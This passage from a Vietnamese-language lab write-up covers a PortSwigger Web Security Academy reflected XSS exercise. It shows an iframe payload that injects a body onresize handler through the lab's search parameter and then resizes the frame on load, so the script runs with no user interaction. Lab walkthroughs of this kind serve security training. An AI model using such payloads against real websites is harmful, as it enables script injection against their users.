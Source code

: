 ![Untitled](writeup_media/Untitled%2048.png)

Khi người dùng resize web, `alert(1)` sẽ được thực thi

Tuy nhiên ta cần thực hiện XSS mà không cần sự tương tác của người dùng. Dùng `Iframe` trong Exploit server để thực hiện resize sau khi load xong web

```html
<iframe src=https://0a7a00a2043f2d12c0d84120004a00c6.web-security-academy.net/?search=%3Cbody%20onresize=print()%3E
    onload=this.style.width="50%"></iframe>
```

![Untitled](writeup_media/Untitled%2049.png)
